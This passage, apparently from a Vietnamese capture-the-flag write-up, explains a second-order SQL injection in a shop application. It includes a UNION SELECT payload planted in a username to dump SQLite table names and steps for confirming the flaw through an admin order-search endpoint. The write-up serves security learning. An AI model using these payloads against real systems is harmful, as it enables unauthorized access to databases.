 Ta có thể lợi dụng parameter search_text - input để lấy ra column username trong table ```orders``` mà ta inject ở query:    
```sql
INSERT INTO orders (username, product_id, quantity)
VALUES (
    (SELECT username FROM users WHERE username='' 
     UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table),
    ?, ?
)
```

==> Vậy điều kiện true ở đây là ta ta inject payload vào và nếu search vẫn ra product mà ta vừa mua thì tức là đã thành công!     

-Đầu tiên ta sẽ tạo 1 user với tên: ```' UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table```, sau đó gửi request (Với token_admin ta lấy được ở bước trên):    

![alt text](image/add_money.png)

-Sau đó quay lại website, đặt mua 1 product rồi quay lại user admin, vào ```/admin/search_order_history```, với 2 parameter ```?category=username&search_text=flag%```, ta xem response trả về:     

![alt text](image/confirm_vul.png)
